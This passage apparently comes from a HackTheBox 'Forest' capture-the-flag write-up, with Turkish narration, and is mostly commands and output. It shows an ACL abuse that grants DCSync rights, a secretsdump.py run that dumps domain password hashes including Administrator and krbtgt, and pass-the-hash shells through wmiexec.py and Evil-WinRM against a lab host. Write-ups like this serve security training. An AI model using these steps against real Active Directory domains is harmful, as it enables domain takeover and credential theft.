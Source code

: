 ```
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191019-215508.restore
```


### Dump Hashes

Now, I can run `secretsdump.py`:

```
root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
```


### Shell

Administrator için hash'ler ile wmiexec gibi bir araç ile bağlantı kurabilirim:

```
root@kali# wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator
```

Evil-WinRM ile de devam edebilirim:

```
root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```
